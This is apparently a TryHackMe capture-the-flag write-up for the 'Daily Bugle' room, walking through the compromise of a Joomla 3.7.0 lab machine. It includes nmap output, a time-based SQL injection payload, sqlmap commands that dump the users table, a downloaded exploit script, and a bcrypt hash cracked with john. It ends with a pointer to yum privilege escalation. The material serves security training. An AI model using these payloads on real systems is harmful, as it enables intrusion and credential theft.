 | [![Daily Bugle](/_static/images/skynet.png)](https://tryhackme.com/room/dailybugle) |
|:--:|
| [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle) |

# The Daily Bugle

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage 
of yum.

## Scanning

Run a simple port scan (without Ping)

	# nmap -Pn -p- <IP address target machine> -oN portscan

portscan:

```text
# Nmap 7.92 scan initiated Sat Oct  1 22:50:08 2022 as: nmap -Pn -p- -oN portscan 10.10.38.105
Nmap scan report for 10.10.38.105
Host is up (0.043s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

# Nmap done at Sat Oct  1 22:51:17 2022 -- 1 IP address (1 host up) scanned in 69.03 seconds
```

Run an `-A` scan on the open ports:

	# nmap -Pn -T4 -A -p22,80,3306 <IP address target machine> -oN servicescan

servicescan:

```text
# Nmap 7.92 scan initiated Sat Oct  1 22:51:25 2022 as: nmap -Pn -T4 -A -p22,80,3306 -oN servicescan 10.10.38.105
Nmap scan report for 10.10.38.105
Host is up (0.039s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   38.60 ms 10.9.0.1
2   38.79 ms 10.10.38.105

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  1 22:51:44 2022 -- 1 IP address (1 host up) scanned in 19.41 seconds
```

## Exploring

| ![The Bugle](/_static/images/Screenshot from 2022-10-01 22-55-47.png) |
|:--:|
| http://10.10.38.105 |

Get version via the `joomla.xml` file:

| ![Joomla.xml](/_static/images/Screenshot from 2022-10-01 22-56-25.png) |
|:--:|
| http://10.10.38.105/administrator/manifests/files/joomla.xml |

Or get version from README.txt:

    # curl -s http://<IP address target machine>/README.txt | head

Check for Joomla 3.7.0 vulnerabilities:

    # searchsploit joomla 3.7.0                        
    ---------------------------------------------- ---------------------------------
     Exploit Title                                |  Path
    ---------------------------------------------- ---------------------------------
    Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
    Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
    ---------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results

Mirroring:

    # searchsploit -m php/webapps/42033.txt
      Exploit: Joomla! 3.7.0 - 'com_fields' SQL Injection
          URL: https://www.exploit-db.com/exploits/42033
         Path: /usr/share/exploitdb/exploits/php/webapps/42033.txt
    File Type: ASCII text

Apparently, this version of Joomla is affected by a blind SQL injection in the `list[fullordering]` parameter.

In browser, run the payloaod provided by SQLMap to confirm the endpoint is vulnerable:

| ![Confirmation](/_static/images/Screenshot from 2022-10-01 23-30-47.png) |
|:--:|
| http://10.10.38.105/index.php?option=com_fields&view=fields&layout=<br>modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu) |

## Gaining a foothold

Run SQLMap using the arguments specified in the exploit:

    sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Takes ages. The [users table](https://docs.joomla.org/Tables/users) may contain 
credentials to access the Joomla administration section.

Dump the username and password columns from the `users` table:

    sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T "#__users" -C username,password -p list[fullordering] --dump

As an alternative, this python script is specific for Joomla:

    # wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
    # python joomblah.py http://<IP address target machine>

Put hash in a file named `hash.txt` and crack the hash:

    # john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:19 0.01% (ETA: 2022-10-04 09:12) 0g/s 83.11p/s 83.11c/s 83.11C/s rock you..gymnastics
    0g 0:00:00:21 0.01% (ETA: 2022-10-04 11:22) 0g/s 81.01p/s 81.01c/s 81.01C/s 2hot4u..sexylove
    spiderman123     (?)     
    1g 0:00:10:44 DONE (2022-10-02 00:27) 0.001551g/s 72.65p/s 72.65c/s 72.65C/s thelma1..speciala
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.

## Privilege escalation

Log in with the found username and password.

Yum is a free and open-source command-line package-management utility for Linux-based operating system which uses the RPM Package Manager.

According to [GTFOBins yum](https://gtfobins.github.io/gtfobins/yum/), yum can be used to escalate privileges by 
crafting an RPM package and installing it on the victim machine. Follow the steps given.